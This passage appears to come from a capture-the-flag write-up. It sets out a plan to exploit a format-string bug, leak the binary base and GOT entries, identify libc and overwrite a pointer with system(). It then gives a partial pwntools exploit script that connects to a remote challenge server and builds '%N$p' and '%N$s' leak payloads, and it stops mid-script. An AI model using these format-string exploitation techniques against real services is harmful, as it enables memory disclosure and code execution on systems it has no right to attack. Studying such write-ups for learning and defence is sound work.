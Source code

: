 Those are not a requirement . but it's the usual behavior of the loader and the Linux kernel's memory management subsystem.

We can't leak libc blindly but we can leak binary addresses blindly though since the binary image is small enough we can guess the binary image base without too much of a hassle.
 
### Game Plan

+ leak binary base. 
+ leak GOT values. 
+ use the [Libc Databse Search](https://libc.blukat.me/) to find out which libc was used.
+ place system function pointer from libc into `banter`.
+ profit

### Exploit
Since I already done that stuff manually I herby present you with the final exploit with the correct libc used on remote.

```py

from pwn import *
context.log_level = 'INFO'

if args.REMOTE:
    p = remote('45.76.30.75',1337)
else:
    p = process('./chal_patched',env={},stdout=process.PTY, stdin=process.PTY)
    # gdb.attach(p,gdbscript= 'b printf')

elf             = ELF('./chal_patched',checksec=False)
libc            = ELF('./lib/libc.so.6',checksec=False)

printf_off = ((elf.got.printf       - elf.symbols.ptrs)// 8)+1
banter_off = ((elf.symbols.banter   - elf.symbols.ptrs)// 8)+1

s2p = lambda x : u64(x.ljust(8,b'\0'))

def leak_address(off):
    payload = str(printf_off).encode()
    payload+= b' '
    payload+= f'%{off}$p'.encode()
    p.sendlineafter(b'> ',payload)
    p.recvuntil(f'You selected {printf_off}\n'.encode())
    leak = p.recvuntil(b'Select an option')[:-len(b'Select an option')]
    return leak


def leak_string(addr):
    # offset between where the $RSP - the address we place on the stack when calling printf
    off = ((0x00007fffffffdc80 - 0x7fffffffdc38)// 8)+5 

    payload = str(printf_off).encode()
    payload+= b'A'*5
    payload+= f'%{off}$s\n'.encode().ljust(8,b'A')
    payload+= p64(addr)
    
    p.sendlineafter(b'>',payload)

    p.recvuntil(f'You selected {printf_off}\n'.encode())
    p.recvuntil(b'AAAA')
    leak = p.recvline()[:-1]
    return leak


# bruteforced after a few tries to find a valid binary address on remote
```